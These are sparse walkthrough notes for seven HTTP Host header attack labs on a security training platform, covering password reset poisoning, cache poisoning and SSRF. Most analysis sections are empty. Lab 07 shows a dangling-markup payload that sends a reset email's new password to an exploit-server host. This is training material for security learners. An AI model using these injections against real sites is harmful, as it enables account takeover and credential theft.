

# Http Host Header Attacks - Walkthroughs

## Lab 01: Basic password reset poisoning

## Vulnerability
password reset functionality.

## Goal
Perform a password reset poisoning attack to compromise Carlos's account.

## Credentials
`wiener:peter`

## Analysis

---

## Lab 02: Host header authentication bypass

## Vulnerability
Host header.

## Goal
Access the admin panel and delete the carlos user.

## Credentials
`N/A`

## Analysis

---

## Lab 03: Web cache poisoning via ambiguous requests

## Vulnerability
Host header

## Goal
Perform a web cache poisoning attack that alerts on the victim's cookie

## Analysis

User           Cache          Web Server
Attacker ----------------------> Homepage
         <----------------------
User 2 ----------> Cached Homepage
       <----------

Three steps to construct a web cache poisoning attack:
1. Identify and evaluate unkeyed inputs.
2. Elicit a harmful response from the backend server.
3. Get the response cached.

 

---

## Lab 04: Routing-based SSRF

## Vulnerability
Host header

## Goal
Exploit the host header injection to perform an SSRF attack to access the admin panel and delete the user carlos.

## Credentials
`N/A`

## Analysis

Application client -> |  Application server, Server 1, Server 2, Server 3, ... |

222q6kkf0u3w9pjwbl0f20f6ux0ooec3.oastify.com

---

## Lab 05: SSRF via flawed request parsing

## Vulnerability
Host header.

## Goal
Exploit the host header injection to gain access to an internal admin panel and delete the carlos user.

## Credentials
`N/A`

## Analysis

---

## Lab 06: Host validation bypass via connection state attack

## Vulnerability
Host header

## Goal
Exploit the host header injection in order to perform an SSRF attack and access an internal admin panel to delete the carlos user.

## Credentials
`N/A`

## Analysis

1 2 3 4 5 6

---

## Lab 07: Password reset poisoning via dangling markup

## Vulnerability
Password reset functionality

## Goal
Perform password reset poisoing via dangling markup.

## Credentials
`wiener:peter`

## Analysis

<a href='https://0a68005103145ff28088fd4400b90070.web-security-academy.net:'><a href='https://exploit-0a57008603ee5f9780bbfcb0013a00fb.exploit-server.net/?login'>click here</a> to login with your new password: IrXeyW3cTi

Thanks, Support team
<i>This email has been scanned by the MacCarthy Email Security service</i>

/?/login'>click+here</a>+to+login+with+your+new+password:+NebdDO1053

Thanks, Support+team
<i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i>

---

